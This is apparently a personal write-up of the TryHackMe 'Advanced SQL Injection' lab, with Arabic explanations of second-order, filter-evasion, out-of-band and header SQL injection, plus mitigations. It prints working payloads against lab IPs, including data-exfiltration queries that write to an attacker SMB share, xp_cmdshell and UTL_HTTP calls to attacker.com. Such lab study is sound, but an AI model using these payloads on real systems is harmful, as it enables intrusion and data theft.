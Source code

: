 # Advanced SQL Injection

<details>
  <summary>Introduction</summary>

  > ﻿Throughout this room, you will gain a comprehensive understanding of the following key concepts:
- >> Second-order SQL injection 
- >> Filter evasion
- >> Out-of-band SQL Injection
- >> Automation techniques
- >> Mitigation measures

- > **``First``** scan
  >
  > ```
  > nmap -A -T4 -p 3306,3389,445,139,135 10.10.108.30
  > ```
  >

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 14:35 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 20.00% done; ETC: 14:36 (0:00:24 remaining)
Nmap scan report for 10.10.108.30
Host is up (0.11s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.23 or earlier (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-05-01T18:36:10+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SQLi
| Not valid before: 2025-04-30T18:34:14
|_Not valid after:  2025-10-30T18:34:14
| rdp-ntlm-info: 
|   Target_Name: SQLI
|   NetBIOS_Domain_Name: SQLI
|   NetBIOS_Computer_Name: SQLI
|   DNS_Domain_Name: SQLi
|   DNS_Computer_Name: SQLi
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-01T18:36:00+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2019 (96%), Microsoft Windows 10 (93%), Microsoft Windows 10 1709 - 21H2 (93%), Microsoft Windows 10 21H1 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows 10 1903 (92%), Windows Server 2019 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Vista SP1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-01T18:36:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   140.13 ms 10.8.0.1
2   127.52 ms 10.10.108.30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds

```

- > mysql run on **``3306``**


</details>










--------------------------------------------------------------------------------------------------------------------------------------------------










<details>
  <summary>Recap</summary>

![image](https://github.com/user-attachments/assets/c6ced0d7-d8d3-4b5e-8aea-d80d42831e45)

  
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>Second-Order SQL Injection</summary>

<details>
  <summary>GPT--explain</summary>
  
# Second-Order SQL Injection

Second-Order SQL Injection (SQLi) هو نوع من أنواع هجمات SQL التي لا يتم تنفيذها في لحظة إدخال البيانات كما هو الحال مع SQLi التقليدي. بدلاً من ذلك، يتم إدخال كود خبيث يُخزن بشكل طبيعي في قاعدة البيانات، ثم يُنفذ لاحقًا عند استخدام هذه البيانات في استعلام SQL جديد بدون حماية كافية.

---

## 🧠 مثال توضيحي

### 💾 1. صفحة `add.php` (إدخال البيانات)

المهاجم يدخل البيانات التالية:

- `SSN`: `12345'; UPDATE books SET book_name = 'Hacked'; --`
- `book_name`: `Normal Book`
- `author`: `John Doe`

الكود يُخزن كما هو داخل قاعدة البيانات دون تنفيذ أي أوامر SQL، لأنه لا يُستخدم في استعلام أثناء الإدخال.

---

### 🔁 2. صفحة `update.php` (استخدام البيانات لاحقًا)

الكود التالي يستخدم البيانات المخزنة:

```php
$update_sql = "UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '$ssn'; INSERT INTO logs (page) VALUES ('update.php');";
```

إذا كانت قيمة `$ssn` هي القيمة التي أدخلها المهاجم سابقًا، فإن هذا الاستعلام يصبح استعلامًا مركبًا يؤدي إلى تنفيذ الكود الخبيث.

### 💣 النتيجة

- يتم تنفيذ الأمر الثاني داخل الاستعلام: `UPDATE books SET book_name = 'Hacked';`
- أسماء كل الكتب في الجدول قد تتغير إلى "Hacked".

---

## ⚠️ لماذا هذا النوع خطير؟

- يمر من عمليات الفلترة التقليدية مثل `real_escape_string()`.
- لا يسبب مشاكل ظاهرة وقت الإدخال، مما يجعله صعب الاكتشاف.
- يتم تنفيذه في وقت لاحق في مكان مختلف في الكود.

---

## 🔐 كيف نحمي التطبيق؟

### ✅ استخدام Prepared Statements (الاستعلامات المجهزة)

```php
$stmt = $conn->prepare("UPDATE books SET book_name = ?, author = ? WHERE ssn = ?");
$stmt->bind_param("sss", $book_name, $author, $ssn);
$stmt->execute();
```

### ✅ فلترة البيانات عند الإدخال **وعند الاستخدام**

- لا تكتفِ بالتحقق عند الإدخال فقط.
- تحقق من صحة وسلامة البيانات قبل استخدامها في أي استعلام.

### ❌ تجنب استخدام `multi_query()` إن أمكن

- لأنه يسمح بتنفيذ أكثر من أمر SQL في استعلام واحد، مما يسهل تنفيذ الأكواد الخبيثة.

---

## 📊 تسلسل الهجوم (وصف توضيحي)

```
[User Input] --> (add.php) --> [Stored in DB] --> (update.php uses it unsafely) --> [SQL Injection Triggered]
```

---

Second-Order SQLi مثال قوي على أن الأمان لا يجب أن يعتمد فقط على الإدخال النظيف، بل أيضًا على كيفية استخدام البيانات لاحقًا.


</details>


- > first we will add new book on this ``http://10.10.84.232/second/add.php`` like this:
  > 
  > ![image](https://github.com/user-attachments/assets/4088c1e0-64fc-4dca-b5cf-cddffd17176c)
  > 
  > we make book ``SSN`` content ``12345'; UPDATE books SET book_name = 'Hacked'; --``
  > 
  > it will not excuted now
  >
  > now we open **``http://10.10.84.232/second/update.php``** and update content of this book
  >
  > ![image](https://github.com/user-attachments/assets/b03e0b64-42f6-405d-812d-5fb3be5888cf)
  >
  > if we go back to ``add.php`` will found all books name became **``hacked``**
  >
  > ![image](https://github.com/user-attachments/assets/6594fef7-009d-4cee-a91f-b68c82ce188b)
  >
  > we can also drop tables or any other sql queryies 




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Filter Evasion Techniques</summary>

<details>
  <summary>GPT--explain</summary>

# SQL Injection: Bypassing Weak Filters

## 🎯 الفكرة الأساسية
بعض المطورين يحاولون منع هجمات SQL Injection عن طريق فلترة كلمات خطيرة مثل `OR`, `AND`, `UNION`, `SELECT` من مدخلات المستخدم. لكن هذه الطريقة غير كافية ويمكن تجاوزها باستخدام تقنيات ترميز مختلفة.

---

## 🧱 مثال على كود ضعيف للحماية:

```php
$special_chars = array("OR", "or", "AND", "and" , "UNION", "SELECT");
$book_name = str_replace($special_chars, '', $book_name);
```

الكود يقوم بإزالة الكلمات المحظورة من المدخلات. فإذا أدخل المستخدم:
```
admin' OR 1=1
```
فإنها تتحول إلى:
```
admin' 1=1
```
وبالتالي قد يفشل الهجوم. لكن... 👇

---

## 💥 كيف يتجاوز الهاكر الفلترة؟

### ✅ 1. URL Encoding (ترميز الروابط)

الهجوم:
```
admin' OR 1=1 --
```
يُكتب كالتالي:
```
admin%27%20OR%201%3D1%20--+
```
الفلتر لا يتعرف على `%27` كعلامة اقتباس `'`، لكنها تُفك عند التنفيذ.

---

### ✅ 2. استخدام `||` بدل `OR`

في MySQL:
```sql
1' || 1=1 --+
```
`||` تعمل كبديل لـ `OR`. الفلتر لا يراها خطيرة لكنها تؤدي نفس الغرض.

---

### ✅ 3. Hex Encoding (الترميز بالـ Hex)

كلمة `admin` يمكن كتابتها كالتالي:
```sql
0x61646d696e
```
إذا حاول الفلتر منع كلمة "admin"، هذا الترميز سيتجاوز الحظر.

---

### ✅ 4. Unicode Encoding (الترميز الموحد)

مثال:
```
\u0061\u0064\u006d\u0069\u006e  →  admin
```
بعض البيئات تقوم بتفسير الترميز وتحويله للنص الأصلي تلقائيًا.

---

## 👨‍💻 تطبيقات واقعية معرضة للخطر

- مواقع البحث في الكتب أو المنتجات.
- صفحات تسجيل الدخول واسترجاع كلمات المرور.
- أي نموذج إدخال يعتمد على كلمات يتم فلترتها سطحيًا.

---

## 🛡️ كيف تحمي تطبيقك كمطور؟

- ✅ **استخدم Prepared Statements (استعلامات مجهزة مسبقًا):**
  - تمنع تنفيذ الكود الخبيث مهما كانت طريقة ترميزه.

- ❌ **لا تعتمد على `str_replace` أو Regex فقط:**
  - الترميز قد يخدع هذه الطرق بسهولة.

- 🧠 **افهم أن الترميز لا يغير نية المدخلات:**
  - قاعدة البيانات ستفك الترميز وتنفذ الأوامر.

---

الحماية الحقيقية تأتي من تصميم استعلاماتك بشكل آمن، وليس من مجرد إزالة كلمات معينة من إدخال المستخدم.


  
</details>


- > firts open ``http://10.10.84.232/encoding/``
  >
  > try to use for exmaple ``' or 1=1; --`` this will appear
  >
  > ![image](https://github.com/user-attachments/assets/891418fc-62fd-415a-b15a-bdb20dc11faf)
  >
  > so now will go to burpsuit and send request to ``repeater``
  >
  > and select the input and do url encode to it by click ``ctrl`` **+** ``U``
  >
  > ![image](https://github.com/user-attachments/assets/181147f7-3764-438a-9c65-9fab015278a7)
  >
  > ```
  > http://10.10.84.232/encoding/search_books.php?book_name=intro+to+php%27+||+1%3d1+--+
  > ```




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Filter Evasion Techniques (continued)</summary>

<details>
   <summary>GPT--EXPLAN</summary>

# 💣 No-Quote & No-Space SQL Injection

## 🔍 أولًا: يعني إيه No-Quote SQL Injection؟

دي تقنية بنستخدمها لما السيرفر يمنع علامات الاقتباس `'` أو `"`. يعني أي حاجة فيها `' OR '1'='1` مش هتشتغل، لأن السيرفر بيعمل escape لها أو بيحذفها.

---

## ✅ إزاي نعدي الفلتر ده؟

### 1. استخدام الأرقام بدل النصوص:
```sql
... WHERE id = 1 OR 1=1 --
```
✅ الأرقام لا تحتاج علامات اقتباس، فتعدي بسهولة.

### 2. استخدام التعليقات لتعطيل باقي الاستعلام:
```sql
admin--
```
✅ أي شيء بعد `--` لا يُنفذ.

### 3. بناء كلمات باستخدام دوال SQL:
```sql
CONCAT(0x61, 0x64, 0x6D, 0x69, 0x6E) = "admin"
```
✅ تجاوز لكلمة "admin" بدون كتابتها مباشرة.

---

## 🚫 No-Space SQL Injection (المسافات ممنوعة)

بعض الفلاتر تمنع المسافات كإجراء أمني إضافي.

### ✅ كيف نتجاوز منع المسافات؟

#### 1. استخدام تعليقات مكان المسافات:
```sql
SELECT/**/username/**/FROM/**/users/**/WHERE/**/1=1
```
✅ `/**/` تُعامل كمسافة من قِبل المحرك SQL.

#### 2. استخدام ترميزات للمسافات:

| Character | Meaning               |
|-----------|------------------------|
| `%09`     | Tab                   |
| `%0A`     | Line Feed (New Line) |
| `%0D`     | Carriage Return      |
| `%0C`     | Form Feed            |
| `%A0`     | Non-breaking Space   |

### 💡 مثال عملي:

رابط:
```arduino
http://10.10.84.232/space/search_users.php?username=?
```

الكود في الخلفية:
```php
$special_chars = array(" ", "AND", "and", "or", "OR" , "UNION", "SELECT");
$username = str_replace($special_chars, '', $username);
```

#### ❌ Payload فاشل:
```vbnet
1' OR 1=1 --
```

#### ✅ Payload ناجح:
```matlab
1'%0A||%0A1=1%0A--%27+
```

> `%0A` = سطر جديد، `||` = بديل `OR`، `%27` = `'`, `--` = تعليق

---

## 🧠 الخلاصة: (تلخيص تقنيات التجاوز)

| السيناريو                     | الحل                                                   |
|------------------------------|--------------------------------------------------------|
| كلمات محجوبة (SELECT...)     | `SElEcT`, `SE/**/LECT`, استخدام `CHAR()` أو `CONCAT()` |
| المسافات ممنوعة             | استخدم `%09`, `%0A`, `/**/`, `+`, `\t`, `\n`           |
| Quotes ممنوعة               | استخدم أرقام، دوال نصوص، أو بدون Quotes               |
| `AND` / `OR` ممنوعة         | استخدم `&&`, `` ` ``, أو `||`                          |
| ترميز UTF أو Hex            | `CHAR(0x41)`, `CONCAT(0x61,0x64,0x6D)`                  |

---

## 🧪 نصيحة ميدانية:

- ✅ لازم تجرب، تفشل، وتحاول تاني.
- ✅ مفيش فلتر أو WAF بيقدر يمنع كل الطرق.
- ✅ كل بيئة ليها سلوك مختلف، لازم تفكر زي مخترق ذكي.

> الحماية الذكية = استعلامات مجهزة مسبقًا + فهم عميق للثغرات.


  
</details>


- > **``10.10.84.232/space/search_users.php?username=attacker``**



</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Out-of-band SQL Injection</summary>

<details>
  <summary>GPT--explain</summary>

## 🎯 يعني إيه OOB SQL Injection؟

الـ SQL Injection العادي (In-band) هو لما تبعت كود خبيث في الـ input (زي حقل بحث أو login)، والنتيجة بترجعلك في نفس الصفحة. لكن في بعض الحالات، السيرفر بيمنع الرد المباشر أو بيكون فيه جدار ناري (Firewall) أو IDS بيوقف أي رد غير طبيعي.

⬅️ هنا بييجي دور **Out-of-Band SQLi (OOB SQLi)**:
هو ببساطة إنك تبعت الكود الخبيث، والبيانات ترجعلك من طريق مختلف (زي DNS أو HTTP أو SMB).

---

## ⚙️ إزاي بيشتغل OOB SQL Injection؟

أنت بتقول لقاعدة البيانات: "مش لازم ترد عليا هنا… ابعتي البيانات دي على عنوان تاني أنا بتحكم فيه."

---

## ✅ ليه نستخدم OOB؟

* لما السيرفر ما بيرجعش أي بيانات مباشرة أو الرد متشفر.
* لما فيه WAF/IDS بيراقب ويمنع استجابات غير طبيعية.
* لما السيرفر ورا جدار ناري ومفيش اتصال مباشر بينك وبينه.

---

## 💡 أشهر الطرق المستخدمة حسب نوع قاعدة البيانات:

### 🔸 MySQL / MariaDB:

```sql
SELECT secret_data FROM users 
INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';
```

* يكتب النتيجة في ملف على السيرفر.
* يمكن الكتابة على SMB Share خارجي.

### 🔸 MSSQL:

```sql
EXEC xp_cmdshell 'bcp "SELECT credit_card FROM users" queryout "\\\\10.10.58.187\\logs\\cards.txt" -c -T';
```

* يستخدم أوامر النظام عبر xp\_cmdshell.

### 🔸 Oracle:

```sql
BEGIN
  UTL_HTTP.BEGIN_REQUEST('http://attacker.com?data=' || secret_data);
END;
```

* يستخدم UTL\_HTTP أو UTL\_FILE لإرسال البيانات.

---

## 🔍 طرق النقل المختلفة:

1. **SMB Exfiltration**

   * السيرفر يكتب ملف على SMB Share بتاعك.

2. **HTTP Requests**

   * لو قاعدة البيانات تدعم إرسال HTTP (زي Oracle).

3. **DNS Exfiltration**

   * ترسل البيانات مشفرة كـ DNS query. يتطلب DNS Server خاص بيك.

---

## 🧪 سيناريو عملي من TryHackMe (مثال SMB OOB):

### 🧱 الوضع:

رابط فيه SQLi:

```
http://MACHINE_IP/oob/search_visitor.php?visitor_name=Tim
```

الكود في الخلفية:

```php
$sql = "SELECT * FROM visitor WHERE name = '$visitor_name'";
```

### 🎯 الهدف:

نخرج بيانات قاعدة البيانات (زي إصدارها) باستخدام SMB.

### 🚀 الخطوات:

1. **شغل SMB Server على AttackBox**

```bash
cd /opt/impacket/examples
python3.9 smbserver.py -smb2support logs /tmp
```

2. **جهّز البايلود:**

```sql
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```
> ``ATTACKBOX_IP`` is tun0 IP



3. **ملاحظة مهمة:**
   في MySQL فيه متغير `secure_file_priv`:

* لو متعيّن على فولدر → مش هتقدر تكتب غير فيه.
* لو فاضي → تقدر تكتب في أي مكان.

أماكن بديلة: `/var/lib/mysql-files/` أو `/tmp/`

4. **عرض الملف على SMB:**

```bash
smbclient //ATTACKBOX_IP/logs -U guest -N
ls
```

---

## ✅ خلاصة:

* OOB SQLi = تبعت كود خبيث والداتا ترجعلك من قناة تانية (DNS, HTTP, SMB).
* مفيد لما يكون السيرفر مقفول أو فيه WAF.
* لازم تجهز سيرفر خارجي تستقبل عليه البيانات.


</details>


- > first ``lcate`` **smbserver.py**
  >
  > ```
  > locate smbserver.py
  > ```
  >
  > ```
  > /usr/lib/python3/dist-packages/impacket/smbserver.py
  > /usr/lib/python3/dist-packages/scapy/layers/smbserver.py
  > /usr/share/doc/python3-impacket/examples/smbserver.py
  > ```
  > after this lesten using this
  >
  > ```
  > python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmp
  > ```
  >
  > and open
  >
  > ```
  > http://10.10.118.35/oob/search_visitor.php?visitor_name=1%27;%20SELECT%20@@version%20INTO%20OUTFILE%20%27\\\\10.8.47.102\\logs\\out.txt%27;%20--
  > ```
  >
  > now if we go to **``/tmp/``** will find
  >
  > ```
  > 
  > MozillaUpdateLock-6F44D7866C515FB4
  > out.txt
  > snap-private-tmp
  > ssh-hANM0kFepfUI
  > systemd-private-e6b60fac0cdb4058be212246d60424e0-apache2.service-y0ADPx
  > systemd-private-e6b60fac0cdb4058be212246d60424e0-colord.service-U9islR
  > systemd-private-e6b60fac0cdb4058be212246d60424e0-fwupd.service-FVxt1L
  > ```
  >
  > ```
  > cat out.txt
  > ```
  >
  > ```
  > 10.4.24-MariaDB
  > ```
  >
  > done 😝
  >
  > now to know  @@basedir
  >
  > ```
  > http://10.10.118.35/oob/search_visitor.php?visitor_name=1%27;%20SELECT%20@@basedir%20INTO%20OUTFILE%20%27\\\\10.8.47.102\\logs\\out1.txt%27;%20--
  > ```
  >
  > if we open ``/tmp/`` will found ``out1.txt``
  >
  > ```
  > cat out1.txt
  > ```
  >
  > ```
  > C:/xampp/mysql
  > ```
  > 


</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Other Techniques</summary>

<details>
   <summary>GPT--explain</summary>

## 🧠 1. HTTP Header Injection (User-Agent Injection)

### ✅ الفكرة العامة:

بعض التطبيقات بتسجّل أو تستخدم بيانات الـ HTTP Headers (زي User-Agent, Referer, X-Forwarded-For) مباشرة في قواعد البيانات أو الاستعلامات بدون تعقيم، وده بيفتح الباب لـ SQL Injection.

### 💥 مثال توضيحي:

```http
User-Agent: ' UNION SELECT username, password FROM user; #
```

إذا التطبيق بيستخدم القيمة دي في SQL query:

```php
$sql = "SELECT * FROM logs WHERE user_Agent = '$userAgent';"
```

كده القيمة بتُدرج حرفيًا في الاستعلام، ولو فيها كود SQL هيتنفذ.

### 📌 خطورة السيناريو:

لو التطبيق بيعرض نتيجة هذا الاستعلام في صفحة (زي /httpagent/)، المهاجم يقدر يشوف البيانات اللي تم حقنها.

### ⚖️ أدوات التنفيذ:

* **Burp Suite** (لتعديل الهيدر بسهولة)
* **curl**:

```bash
curl -H "User-Agent: ' UNION SELECT username, password FROM user; #" http://MACHINE_IP/httpagent/
```

---

## 🧠 2. Stored Procedure Injection

### ✅ الفكرة العامة:

Stored Procedures هي دوال محفوظة داخل قاعدة البيانات. لو استخدمت إدخال المستخدم داخل Dynamic SQL، ممكن تؤدي لـ SQL Injection.

### 💥 مثال توضيحي:

```sql
CREATE PROCEDURE sp_getUserData 
    @username NVARCHAR(50)
AS 
BEGIN 
    DECLARE @sql NVARCHAR(4000)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END
```

لو مهاجم أرسل:

```sql
' OR '1'='1
```

هيتنفذ:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1'
```

### ✅ الحل الأمني:

استخدم Parameterized Queries:

```sql
CREATE PROCEDURE sp_getUserData
    @username NVARCHAR(50)
AS
BEGIN
    SELECT * FROM users WHERE username = @username
END
```

---

## 🧪 3. JSON / XML Injection

### ✅ الفكرة العامة:

لو التطبيق بيستقبل JSON أو XML، ويستخدم القيم في SQL بدون تعقيم، ممكن يحصل SQL Injection.

### 📺 JSON Injection:

#### ⭐ السيناريو:

```json
{
  "username": "admin",
  "password": "123456"
}
```

المهاجم يرسل:

```json
{
  "username": "admin' OR '1'='1--",
  "password": "irrelevant"
}
```

#### 💥 النتيجة:

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'--' AND password = 'irrelevant'
```

### 📺 XML Injection:

#### ⭐ السيناريو:

```xml
<user>
  <username>admin' OR '1'='1</username>
  <password>test</password>
</user>
```

#### 💥 النتيجة:

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
```

### ✅ الحل الأمني:

* تعقيم كل المدخلات.
* استخدم Prepared Statements.
* استخدم مكتبات آمنة للتعامل مع JSON وXML.

---

## ✅ الخلاصة:

| الهجوم                     | السبب                             | الحل                                 |
| -------------------------- | --------------------------------- | ------------------------------------ |
| HTTP Header Injection      | استخدام قيمة الهيدر مباشرة في SQL | استخدام تعقيم أو Prepared Statements |
| Stored Procedure Injection | Dynamic SQL بدون باراميتر         | استخدام باراميتر داخل الـ Procedure  |
| JSON / XML Injection       | بناء SQL من بيانات JSON/XML       | Prepared Statements وتعقيم القيم     |


</details>


- >
  > ```
  > curl -H "User-Agent: ' UNION SELECT flag,book_id FROM books; # " http://10.10.45.81/httpagent/
  > ```
  >
  > found
  >
  > ```
  > THM{HELLO}
  > ```
  >



</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>Automation</summary>

<details>
  <summary>GPT--EXPLAIN</summary>


# SQL Injection - الهجوم ده بيحصل ليه؟

الـ SQL Injection هو نوع من الهجوم اللي بيستغل ضعف في التطبيق أو الموقع، عشان يقدر يدخل أكواد SQL خبيثة في استعلامات (queries) قاعدة البيانات، وده ممكن يسمح له بالوصول للبيانات أو تعديلها بدون إذن.

## التحديات اللي بتواجهنا في اكتشاف SQL Injection

### 1. الاستعلامات الديناميكية:
الاستعلامات دي بتتكون حسب المدخلات اللي بيدخلها المستخدم. يعني لو المستخدم دخل قيمة معينة، الاستعلام بيتم تكوينه بناءً على المدخل ده.

**المشكلة هنا:**
الاستعلامات المعقدة دي بتخلي من الصعب اكتشاف أماكن الثغرات بسهولة.

**مثال:**
إذا عندنا استعلام زي ده:

```php
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

لو المستخدم دخل:

```plaintext
' OR 1=1 --
```

الاستعلام هيكون كده:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 -- AND password = '';
```

ده هيسمح للمهاجم بالوصول لبيانات المستخدمين.

### 2. أنواع مختلفة من نقاط الحقن:
الثغرات دي ممكن تظهر في أماكن كتير:
- المدخلات النصية (مثل: الحقول في النماذج)
- رؤوس الـ HTTP (مثل: User-Agent, Referer)
- المعلمات في URL (مثل: http://example.com?id=1)

الـ SQL Injection مش دايمًا هتحصل في نفس المكان، ولازم نفحص كل جزء في التطبيق.

### 3. استخدام تدابير الأمان:
بعض التطبيقات بتستخدم prepared statements أو parameterized queries عشان تتجنب الثغرات دي. يعني بدل ما تكون الاستعلامات فيها قيم مباشرة، بيتم استخدام معلمات (parameters) بتكون أكثر أمانًا.

**مثال:**

```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

الطريقة دي بتخلي من الصعب على المهاجم أن يدخل أكواد SQL خبيثة.

### 4. الاكتشاف حسب السياق:
الأدوات اللي بنستخدمها لازم تكون ذكية عشان تقدر تحدد الـ SQL Injection في السياقات المختلفة. يعني لازم تكون قادرة على التمييز بين الأماكن الآمنة وغير الآمنة في التطبيق.

## الأدوات المهمة لاكتشاف SQL Injection

فيه أدوات كتير بتساعدنا نكتشف SQL Injection، هنا بعض من الأدوات المهمة:

### 1. SQLMap
SQLMap هو أداة مفتوحة المصدر بتساعد في اكتشاف واستغلال ثغرات SQL Injection بشكل تلقائي.

- بتدعم مجموعة كبيرة من قواعد البيانات.
- ممكن تشغلها بسهولة وتستخدمها لاكتشاف الثغرات.

### 2. SQLNinja
SQLNinja هي أداة تانية بتخصصها لاكتشاف SQL Injection في المواقع اللي بتستخدم Microsoft SQL Server كقاعدة بيانات.

### 3. JSQL Injection
دي مكتبة بلغة Java بتساعدك تكتشف SQL Injection في التطبيقات المبنية على Java.

### 4. BBQSQL
BBQSQL هي أداة لاختبار Blind SQL Injection. يعني بتساعدك تكشف الثغرات دي حتى لو ما بتظهرلكش رسائل خطأ.

## الخلاصة:
أدوات زي SQLMap و SQLNinja بتسهل اكتشاف واستغلال ثغرات SQL Injection.

لكن لازم نفهم إن الأدوات دي مش كفاية لوحدها. لازم نعمل فحص يدوي للتأكد من الأمان.

استخدام تقنيات زي prepared statements و parameterized queries بتقلل فرص حدوث SQL Injection.


</details>




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>beast practice</summary>

<details>
   <summary>GPT--explain</summary>


# 1. للمطورين (Secure Coders)

## استعلامات معلماتية (Parameterized Queries)
يعني بدل ما تكتب الاستعلامات مع المدخلات بشكل مباشر، تكتبها في شكل ثابت، وتضيف القيم بشكل آمن.

**مثال:**
لو عندك استعلام لاسترجاع مستخدم:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $username]);
```

هنا القيمة `:username` يتم استبدالها بشكل آمن بالمدخل المرسل، وبالتالي مفيش خطر من SQL injection.

## التحقق من المدخلات وتنظيفها (Input Validation and Sanitisation)
يعني تتأكد من أن المدخلات التي يدخلها المستخدم صحيحة. مثلًا، لو المستخدم يدخل رقم تليفون، تأكد أنه يحتوي على أرقام فقط.

**مثال في PHP:**

```php
htmlspecialchars($input);  // لتنظيف المدخلات من أكواد HTML ضارة.
filter_var($email, FILTER_VALIDATE_EMAIL);  // للتحقق من أن البريد الإلكتروني صحيح.
```

## مبدأ أقل امتياز (Least Privilege Principle)
يعني تعطي الصلاحيات للحسابات المستخدمة في التطبيق أقل قدر من الصلاحيات الضرورية.

**مثال:** ما تستخدمش حسابات لها صلاحيات كبيرة مثل ADMIN إلا لو ضروري، لتقليل الضرر في حالة حدوث هجوم.

## الإجراءات المخزنة (Stored Procedures)
الإجراءات المخزنة هي كود SQL جاهز موجود في قاعدة البيانات. بدل ما تكتب استعلامات في التطبيق، استخدم إجراءات مخزنة يمكنها التحقق من المدخلات بشكل آمن.

## مراجعة الكود والتدقيق الأمني (Security Audits and Code Reviews)
يعني تراجع الكود بشكل دوري وتبحث عن الثغرات الأمنية. استخدم أدوات لفحص الكود تلقائيًا لكن أيضًا راجع يدويًا لأنه قد يكون هناك أخطاء صغيرة.

---

# 2. لفاحصي الثغرات (Pentesters)

## استغلال ميزات قواعد البيانات الخاصة (Exploiting Database-Specific Features)
كل قاعدة بيانات لها ميزات خاصة. لو فهمت هذه الميزات، تستطيع استخدامها لاستغلال الثغرات.

**مثال:** في MSSQL، يمكنك استخدام `xp_cmdshell` لتنفيذ أوامر النظام.

## استغلال رسائل الخطأ (Leveraging Error Messages)
لو التطبيق يعطي رسائل خطأ مفصلة، يمكنك استغلالها للحصول على معلومات عن قاعدة البيانات.

**مثال:** عند محاولة إدخال استعلام خاطئ، قد يظهر لك إصدار قاعدة البيانات أو هيكلها.

## تجاوز جدران الحماية (Bypassing WAF and Filters)
إذا كان هناك جدار حماية (WAF) أو فلاتر تمنع الهجمات، يمكن تجاوزها باستخدام تقنيات مثل تغيير الحروف أو الترميز بشكل غير تقليدي.

**مثل:** `SELECT` قد تكتبها كـ `SeLeCt` أو تستخدم الترميز العكسي (URL encoding).

## تمييز قاعدة البيانات (Database Fingerprinting)
لازم تعرف نوع قاعدة البيانات المستهدفة. كل قاعدة بيانات تختلف في الاستعلامات، زي:

- `SELECT version()` في PostgreSQL.
- `SELECT @@version` في MySQL و MSSQL.

## التنقل باستخدام SQL Injection (Pivoting)
بعد الوصول لقاعدة البيانات، قد تتمكن من استخدامه لاختراق أنظمة أخرى داخل الشبكة، مثلًا استخراج كلمات المرور أو الوصول لخوادم أخرى.

---

# الخلاصة

- **للمطورين**: اتبع طرق آمنة في كتابة الكود مثل استعلامات معلماتية و التحقق من المدخلات لتجنب الثغرات.
- **لفاحصي الثغرات**: اعرف تفاصيل قاعدة البيانات وأنت تستخدمها للوصول لأقصى استغلال ممكن للثغرات.

  
</details>

</details>

--------------------------------------------------------------------------------------------------------------------------------------------------





